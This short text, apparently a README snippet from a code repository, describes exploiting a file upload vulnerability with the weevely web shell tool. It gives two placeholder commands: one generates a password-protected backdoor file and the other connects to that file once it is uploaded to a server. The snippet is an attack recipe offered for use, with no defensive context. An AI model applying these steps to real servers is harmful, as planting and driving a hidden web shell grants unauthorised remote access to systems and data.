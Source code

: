 this is used to exploit file upload vulnerability by gaining accessed to the system using the backdoor file uploaded on the server



```python
Generate payload:
	weevely generate [arb password] [arb (filename or dir/filename)]



Gaining Access:
	weevely [urn means domain/directories/backdoor_file] [arb password set]
```